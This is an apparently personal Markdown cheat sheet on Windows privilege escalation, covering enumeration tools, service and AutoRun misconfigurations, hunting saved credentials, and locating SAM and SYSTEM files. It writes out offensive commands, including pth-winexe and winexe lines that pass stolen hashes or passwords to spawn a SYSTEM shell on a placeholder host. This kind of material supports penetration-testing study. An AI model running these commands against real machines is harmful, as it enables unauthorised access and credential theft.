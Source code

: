 # Tools - Privilege escalation

1. Winpeas
2. sharup
3. powerup

Userpermissions check - accesschk.exe, But old version only supports --accepteula command line option

#### Techniques
##### 1. Kernel exploits

Tools
Windows exploit suggester
Waston - For recent version of Windows

Precompiled kernel exploits
SecWiki

##### 2. Service Misconfigurations

##### a. Insecure Service Properties

Weakness exploitable => Modifying the service configuration file by changing the binpath referring malicious.exe file. Upon executing, the reverse shell can be obtained.

Command  

```
.\winpeas quiet servicesinfo
```

Use accesschk.exe to check the permission to change the config of service, start/stop the service
```
.\accesschk.exe /accepteula -uwcqv user <service name>
```

```
sc qc <Servicename>
```
Check the START_TYPE
DEMAND_START means that the service can be start manually <br />
Binary path name and any dependencies can be identified. <br />
Service_Start_Name => LocalSystem => Means service is running with system privilege  <br />

```
sc query <servicename>
```
STATE => Current state of the service, started or stopped.

##### b. Unquoted Service Path
##### c. Weak Registry Permissions
##### d. Insecure Service Executables
##### e. DLL Hijacking

##### 3. Registry exploits

##### a. AutoRuns

If we are able to write to an AutoRun executable and able to restart the system,then t is possible to escalate privileges
```
.\winPEASany.exe quiet applicationsinfo
```

Command to enumerate the AutoRun executables manually

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Then use accesschk.exe to verify the permissions of each service.

```
.\accesschk.exe /accepteula -wvu "C:\ProgramFiles\<Sample Program>\<program.exe>"
```

##### b. AlwaysInstallElevated

##### 4. Passwords

##### a. Searching Registry password

To check common password locations

```
.\winPEASany.exe quiet filesinfo userinfo
```

Using winexe command, we can spawn a shell

```
# winexe -U '<username>%<password>' //192.168.X.X cmd.exe
```

##### b. Saved Creds

Use winPEAS to check for saved credentials:

```
.\winPEASany.exe quiet cmd windowscreds
```

To doublecheck the output manually using following command

```
cmdkey /list
```

##### c. Searching for configruation files

Unattented.xml file

```
.\winPEASany.exe quiet cmd searchfast filesinfo
```

##### d. SAM & Passing the Hash

SAM and SYSTEM file default location
```
C:\Windows\System32\config
```

Backups of the files may exist in the following directories
```
C:\Windows\Repair
C:\Windows\System32\config\RegBack
```

Once hashes are obtained, in either ways we can spwan a cmd.exe
1. Crack the hashes and use winexe to spawn a shell
2. Use pth-winexe 

```
pth-winexe --system -U '<Username>%aad3b435b51404eeaad3b435b51404ee:<Users Hash>' //192.168.X.X cmd.exe
```
--system - To spwan system (admin) shell

Without --system, it could be normal user shell.
  
  
  
